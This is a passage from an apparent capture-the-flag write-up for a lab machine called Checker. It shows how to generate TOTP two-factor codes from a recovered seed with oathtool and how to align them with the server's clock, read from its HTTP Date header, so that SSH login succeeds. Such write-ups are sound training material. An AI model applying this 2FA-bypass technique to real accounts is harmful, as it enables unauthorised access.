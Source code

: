 #### Generate Code

That seed, along with the current time, is what is used to generate the 2FA six-digit number. I’ll generate them locally with `oathtool` (`apt install oathtool`):

```

oxdf@hacky$ oathtool -b --totp DVDBRAODLCWF7I2ONA4K5LQLUE
538822

```

This doesn’t work for me:

```

oxdf@hacky$ ssh reader@checker.htb
(reader@checker.htb) Password: 
(reader@checker.htb) Verification code: 
Error "Operation not permitted" while writing config

(reader@checker.htb) Password:

```

This error message is confusing. It doesn’t look like an error for the code being wrong. In fact, if I try again and put in 123456 as the code, it just prompts for the password again:

```

oxdf@hacky$ ssh reader@checker.htb
(reader@checker.htb) Password: 
(reader@checker.htb) Verification code: 
(reader@checker.htb) Password: 

```

Still, that is still an error for the code not being quite right (I think it’s because it’s only a few minutes off).

When troubleshooting 2FA, the first thing to check is the time. A nice way to get that is from the HTTP server headers. It looks like Checker is a little less than two minutes ahead of my box:

```

oxdf@hacky$ curl -v http://checker.htb -s 2>&1 | grep Date | cut -d' ' -f 4-; date
24 Feb 2025 15:38:37 GMT
Mon Feb 24 03:36:59 PM UTC 2025

```

I’ll use this one-liner to get the token from the time on Checker:

```

oxdf@hacky$  oathtool -b --totp DVDBRAODLCWF7I2ONA4K5LQLUE --now="$(date -d "$(curl -v http://checker.htb -s 2>&1 | grep Date | cut -d' ' -f 3- | tr -d '\r')" "+%Y-%m-%d %H:%M:%S")"
579533

```
